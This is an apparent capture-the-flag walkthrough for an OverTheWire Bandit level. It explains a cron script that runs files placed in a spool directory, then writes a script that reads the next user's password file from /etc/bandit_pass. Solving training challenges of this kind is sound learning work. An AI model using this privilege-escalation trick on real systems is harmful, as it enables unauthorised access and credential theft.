 >2. See the contents of the shell script `cronjob_bandit24.sh`

```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

```

- You need to be able to understand what this does :
	1. set a `myname` variable : `bandit24`
	2. Go to the directory :  `/var/spool/bandit24/foo`
	3. `echo` some prompt

	4. For Loop :
		 for `i` in any name`.`any extension (all files)
				- check if `i` is current directory or parent directory
				- otherwise, 
					- `stat` command's '%U' option give you username
					- store username into a variable called `owner`
					- check if `owner` is `bandit23`
						- if it is, run it for 60seconds and delete it.

>3.  If we can place a shell script that was written by me(bandit23) into `/var/spool/bandit24/foo`, that shell script will be run by the `bandit24` authorization.
> So let's write shell script in `/tmp` directory and copy that into `/var/spool/bandit/foo`

```bash
$ mkdir /tmp/myshellscript
$ cd /tmp/myshellscript
$ vim sneakinto.sh

```

`sneakinto.sh`
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/myshellscript/get24pw

```
